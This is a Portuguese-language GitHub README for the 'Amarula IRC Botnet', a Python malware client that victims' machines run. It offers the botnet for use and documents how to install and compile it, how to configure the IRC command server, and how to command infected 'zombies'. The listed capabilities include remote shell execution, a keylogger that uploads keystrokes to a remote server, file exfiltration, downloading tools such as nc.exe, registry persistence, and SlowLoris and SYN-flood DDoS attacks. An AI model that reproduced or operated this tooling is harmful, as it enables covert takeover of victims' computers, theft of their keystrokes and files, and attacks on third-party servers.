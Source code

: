 # Amarula IRC Botnet v2.1
<h4> Panama Version </h4>


Botnet client feito em **Python 2.7** *(written in Python 2.7)* <br>
Testado em: **Windows XP, 8, 10**, *(tested on)*<br>
Escrito por: **Carlos Néri Correia** *(coded by)* <br>
Versão: **2.1** *(version)*

## Como funciona? *(how it works)*
O Amarula IRC Botnet é um *botnet client* codado em Python 2.7. O malware nada mais é do que um cliente IRC, especialmente construído, que se conecta a um server IRC e entra em um canal como se fosse um usuario comum.
O Administrador, por sua vez, também estará conectado ao canal, mas através de um programa de cliente IRC normal (como o Hexchat), de forma que, toda vez que o Adm envia uma mensagem para o canal, o BOT interpreta essa mensagem como um comando a ser executado no sistema. São diversas as vantagens de administrar os BOTs através do IRC - Os servers são ativos 24h, não é necessário abrir portas no PC, o IRC é um protocolo teoricamente confiável, entre outras.

## Funções *(features)*
- Executar comandos shell *(shell command execution)* <br>
- Keylogger - Captura de teclas digitadas pelo cliente em tempo real *(real-time keylogging)* <br>
- Listar diretório atual do bot *(list current working directory)* <br>
- Listar todos os arquivos de um *diretorio (list all directory files)* <br>
- Obter ip local e externo do bot *(get local and WAN bot IP)* <br>
- Download de arquivos da web via HTTP *(HTTP web downloading)* <br>
- Upload de arquivos para servidor web via HTTP *(upload bot files to web server)* <br>
- Envio de logs para servidor remoto *(send logs to remote server)* <br>
- Deletar arquivos no BOT *(delete files)* <br>
- Executar arquivos no BOT *(run files)*<br>
- Persistência *(persistence)*<br>
- Ataques DDoS na camada 7 *(layer 7 DDoS attacks)*<br>
- Ataques DDoS na camada 4 *(layer 4 DDoS attacks)*<br>

## Instalação *(install)*
Faça o download do ZIP ou clone o repositório:
    
	$ git clone https://github.com/hackerama/Amarula-Python-Botnet.git

Algumas bibliotecas do python são requeridas:   
    
	$ pip install requests
	$ pip install pypiwin32

A biblioteca pyHook, também é exigida. abaixo o link para baixar o executável de instalação.

**Download pyHook**
https://sourceforge.net/projects/pyhook/

## Configuração *(setup)*
Algumas variáveis precisarão ser definidas ou alteradas, para que a conexão do BOT com o IRC seja feita corretamente. <br>
Toda a administração dos BOTs será feita através de um cliente IRC. O Administrador enviará comandos para o canal onde os BOTs estarão conectados e intrepretarão as mensagens enviadas como comandos. 

***VARIÁVEIS:*** *(variables)* <br>
![Screenshot](https://preview.ibb.co/j7QStm/variables.png)

***ircServer*** *(sets IRC server address)* <br>
Endereço do servidor IRC ao qual o BOT irá se conectar. <br>

***ircPwdCha*** *(sets IRC channel password)*<br>
Define o password do canal IRC ao qual o bot irá se conectar. <br>
Caso o canal não possua password, deixar em branco ("") <br>
Importante setar um password no canal para que outras pessoas não entrem e possam controlar os seus bots.

***ircChanne*** *(sets IRC channel)* <br>
Canal do IRC ao qual o bot irá se conectar. <br>
É interpretando as mensagens enviadas para o canal que o BOT irá executar os comandos internamente no cliente.

***botPass*** *(sets password to activate and connect to the BOTS)* <br>
Define um passoword para ativar, conectar e controlar os bots no canal <br>
 
***botAdmi*** *(Admin Name - NOT OBLIGATORY)* <br>
Define um nome pelo qual os zumbis te chamarão <br>
Não é obrigatório. <br>

***urlUpload*** *(Upload page on remote server)* <br>
Página de upload no servidor remoto, para a função de envio remoto. <br>
Será criado um arquivo *capt-(nome do PC).txt* na mesma pasta de upload.php, no servidor.  

***ldir*** *(sets local directory, dropping directory)* <br>
Diretório local, onde será salvo o arquivo de log. <br>
Diretório para o qual o .exe se copia para ser executado em persistência quando a máquina reiniciar.



## Compilar *(compile)*

	$ pyinstaller -w amarula.py --onefile
    
## Controlando os bots *(usage)*

![Screenshot](https://preview.ibb.co/kwPyzR/help.png)

- [login] para se conectar aos BOTS no canal <br>
  A senha padrão é "raise".
  
		$ USAGE: login <senha> br>
		$ Ex: login raise
		
- [help] para listar os comandos disponíveis <br>
		
		$ USAGE: help <nickdobot> <br>
		$ Ex: help DESKTOP-PC-3456

- [dir] para vizualizar o diretorio atual do zumbi <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ls] para listar o conteudo da pasta atual <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ip] para mostrar os ips do bot
		
		$ USAGE: ls <nickdobot> 
		$ Ex: ip DESKTOP-PC-3456
	
- [upload] para fazer upload de arquivos do bot
  Será feito o upload para o servidor web definido na variável urlUpload 
		
		$ USAGE: $ USAGE: upload <Arquivo> <nickdobot>
		$ Ex: upload leak.txt DESKTOP-PC-3456

- [download] para baixar arquivos da web para o zumbi
		
		$ USAGE: $ USAGE: download <link> <nickdobot>
		$ Ex: download http://seusite.com/nc.exe DESKTOP-PC-3456

- [run] para executar um programa ou arquivo

		$ USAGE:  run <programa> <nickdobot>
		$ Ex: run calc.exe DESKTOP-PC-3456

- [delete] para excluir arquivos
		
		$ USAGE: delete <arquivo> <nickdobot>
		$ Ex: delete leak.txt DESKTOP-PC-3456

- [keylog start] para ativar o keylogger
  O arquivo de log será upado para o servidor web a cada 100 caracteres digitados. <br>
  Será iniciado um novo processo no sistema do BOT para o keylogger.		

		$ USAGE: keylog start <botnick>
		$ Ex: keylog start DESKTOP-PC-3456
		$ Ex: keylog start wave 


- [keylog stop] para desativar o keylogger
		
		$ USAGE: keylog stop <botnick>
		$ Ex: keylog stop DESKTOP-PC-3456
		$ Ex: keylog stop wave
		

- [slow start] para ativar o ataque SlowLoris
  Ataque DDoS à camada 7 de servidores web com o SlowLoris.
		
		$ USAGE: slow start <socket count> <ip> <port> [<botnick> || <wave>]
		$ Ex: slow start 700 206.285.1.23 80 DESKTOP-PC-3456
		$ Ex: slow start 700 206.285.1.23 80 wave

- [slow stop] para desativar o SlowLoris
		
		$ USAGE: slow stop <botnick> || wave
		$ Ex: slow stop DESKTOP-PC-3456
		$ Ex: slow stop wave

- [plum start] para ativar o ataque Syn Flood
  Ataque DDoS à camada 4 de servidores com o Plum.
		
		$ USAGE: plum start  <plum start> <threads> <ip> <port> [<botnick> || <wave>]
		$ Ex: plum start 10 206.285.1.23 80 DESKTOP-PC-3456
		$ Ex: plum start 10 206.285.1.23 80 wave

- [plum stop] para desativar o Syn Flood
		
		$ USAGE: plum stop <botnick> || wave
		$ Ex: plum stop DESKTOP-PC-3456
		$ Ex: plum stop wave


- [persistence]   para instalar persistencia no registro do Windows
  Instala a persistencia, iniciando o bot toda vez que o PC do cliente iniciar <br>
		
		$ USAGE: persistence <botnick>
		$ Ex: persistence DESKTOP-PC-3456

- [shell] para executar comandos no terminal.
		
		$ USAGE: shell <comando> <botnick>
		$ Ex: shell echo HACKED hack.txt && DIR hack.txt DESKTOP-PC-3456
		
- [sair] para que os bots ativos saiam do canal <br>

		$ USAGE: sair		
		
- [sair] matar todos os BOTs ativos <br>
  Todos os zumbis ativos desconectam-se do IRC
		
		$ USAGE: matar		
## Demonstração *(demo)*

https://youtu.be/yYqAwiaAgrA
